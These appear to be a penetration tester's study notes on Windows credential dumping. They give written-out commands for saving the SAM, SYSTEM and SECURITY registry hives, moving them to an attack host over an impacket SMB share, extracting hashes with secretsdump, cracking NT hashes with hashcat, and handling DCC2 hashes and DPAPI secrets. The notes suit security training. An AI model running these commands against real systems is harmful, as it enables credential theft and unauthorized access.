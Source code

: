 Saving copies of the hives
1. Launch cmd.exe with admin privileges
2. Save copies of hives
	- `reg.exe save hklm\sam C:\sam.save
	- `reg.exe save hklm\system C:\system.save`
	- `reg.exe save hklm\security C:\security.saave`
3. Then can use various methods to transfer them to attack host
	- Create share with smb server
		- `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <local directory to host share>
			- run this on our attack host to create the share
		- `move sam.save \\<host ip>\<share name>
		- `move security.save \\<host ip>\<share name>
		- `move system.save \\<host ip>\<share name>
			- run these one Windows to transfer hive copies to share

After that,
Dumping hashes with secret dump
1. `locate secretsdump
2. `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
	- Will try to rerieve system boot key (SYSTEM) before proceeding to dump the local SAM hashes (SAM)

After that,
Crack the hashes with Hasshcat
1. Populate text file with the hashes dumped
	- `sudo vim hashestocrack.txt
		- paste inside here
2. See what hash type to specify
	- `man hashcat`
3. Crack based on hashtype (the hashdump from prev stage will show the type)
	- can identify type with hashid
		- `hashid -m <hash>`
		- Recap: see [[2. Hashcat]]
	- `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
		- 1000: NT


*Dcc2 hashes`
- HKLM\security contains cached domain logon info in form of DCC2 hashes
- eg.
	- `inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25`
- Difficult to crack as it uses PBKDF2, and cannot be used for lateral movement with techniques like Pass-The-Hash
- Hashcat mode is 2100

*DPAPI*
- HKLM\security also dumps machine and use rkeys for DPAPI (Data Protection Application Programming Interface)
	- DPAPI - set of APIs in Windows used to encrypt/decrypt data blobs on per-user basis
	- These blobs utilized by various Windows OS features and third party applications, eg. Internet Explorer uess Password form auto-complete data..
- DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI
